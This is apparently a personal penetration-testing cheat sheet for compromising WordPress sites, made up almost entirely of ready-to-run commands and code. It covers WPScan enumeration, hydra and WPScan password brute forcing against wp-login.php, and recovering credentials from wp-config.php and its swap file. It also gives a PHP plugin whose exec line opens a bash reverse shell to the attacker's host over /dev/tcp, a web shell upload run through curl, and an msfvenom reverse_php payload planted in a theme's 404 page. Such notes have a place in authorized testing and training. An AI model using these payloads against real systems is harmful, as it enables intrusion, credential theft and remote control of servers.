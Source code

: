 #### WPScan
```bash - kali
wpscan -e ap,at,tt,cb,dbe,u,m --detection-mode aggressive --plugins-detection aggressive -t 30 --url http://$TARGET
```
#### Password Cracking
```bash - kali
wpscan --url http://$TARGET -U admin -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt
```
#### wp-config.php.swp file
```bash - kali
vim -r wp-config.php.swp
```
```bash - kali
esc
```
```bash - kali
:w wp-config.txt
```
Now view the contents much easier in wp-config.txt file.
#### WORDPRESS PLUGIN SHELL
[https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell](https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)
```bash - kali
mousepad reverseshell-plugin.php
```
```php
<?php
/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: [http://www.sevenlayers.com](http://www.sevenlayers.com)
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");
?>
```
```bash - kali
zip reverseshell-plugin.zip ./reverseshell-plugin.php
```
![[1._rlwrap]]
Plugins > Add new > Upload > Install now
* If this fails, try doing [[Wordpress#Webshell method]]
Now just click on "Activate Plugin" and done!
#### Webshell method
```
cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
```
```
sudo zip plugin-shell.zip plugin-shell.php
```
WordPress > Plugins > add New > Upload > Browse > plugin-shell.zip > Install now
Even if this says it failed to install, STILL RUN THE CURL COMMAND!
>curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
#### php template shell
```bash - kali
msfvenom -p php/reverse_php lhost=$KALI lport=443 -f raw
```
In WordPress, go to Appearance > Theme Editor, choose a page to edit, here we try the 404 page.
After updating, just access a non-existing page to trigger reverse shell.
#### Finding usernames & passwords:
```bash - kali
cd /var/www/html/wordpress
```
```bash
cat wp-config.php | grep DB
```
#### hydra command against wordpress:
```bash - kali
hydra -L users -P /usr/share/wordlists/rockyou.txt $TARGET -s 80 http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' -f
```
FROM BURP
>
log=webdeveloper&pwd=root&wp-submit=Log+In&redirect_to=http%3A%2F%2F$TARGET%2Fwp-admin%2F&testcookie=1
```bash - kali
hydra -l webdeveloper -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt $TARGET -s 80 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -f
```
![[Port 3306 - MySQL ~#MySQL to Wordpress password]]
[[3._LFI RFI#Wordpress config php]]
